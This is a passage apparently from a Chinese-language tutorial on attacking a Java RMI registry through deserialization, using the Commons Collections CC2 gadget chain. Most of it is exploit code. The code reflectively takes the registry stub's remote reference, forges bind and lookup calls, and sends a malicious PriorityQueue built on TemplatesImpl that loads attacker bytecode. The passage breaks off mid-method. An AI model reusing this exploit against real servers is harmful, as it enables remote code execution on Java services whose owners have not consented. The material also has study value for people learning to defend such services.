 而我们知道写好的lookup函数参数类型是String类型。所以这里要自己实现一个lookup把而因对象发过去。注意在服务端添加CC依赖。我下面的代码打的是CC2

```java
public class RegisteryExploit {
    public static void main(String[] args) throws Exception {
        RegistryImpl_Stub registry = (RegistryImpl_Stub) LocateRegistry.getRegistry("127.0.0.1", 1099); //创建
        //loopkup(registry);
        bind(registry);
    }



    public static void loopkup(RegistryImpl_Stub registry) throws Exception {
        Class<?> superclass = registry.getClass().getSuperclass().getSuperclass();//反射调用实现 默认lookupzhongde super.ref
        Field ref1 = superclass.getDeclaredField("ref");
        ref1.setAccessible(true);
        RemoteRef ref = (RemoteRef) ref1.get(registry);  //反射调用ref //之后模拟lookup

        Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

        RemoteCall var2 = ref.newCall(registry, operations, 2, 4905912898345647071L);

        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(getEvilPriorityQueue());

        ref.invoke(var2);

    }

    public static void bind(RegistryImpl_Stub registry) throws Exception {
        Class<?> superclass = registry.getClass().getSuperclass().getSuperclass();
        Field ref1 = superclass.getDeclaredField("ref");
        ref1.setAccessible(true);
        RemoteRef ref = (RemoteRef) ref1.get(registry);

        Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

        RemoteCall var3 = ref.newCall(registry, operations, 0, 4905912898345647071L);

        ObjectOutput var4 = var3.getOutputStream();
        var4.writeObject(getEvilPriorityQueue());
        var4.writeObject(registry);
        ref.invoke(var3);
    }


    public static PriorityQueue getEvilPriorityQueue() throws Exception {
        //CC2
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

```
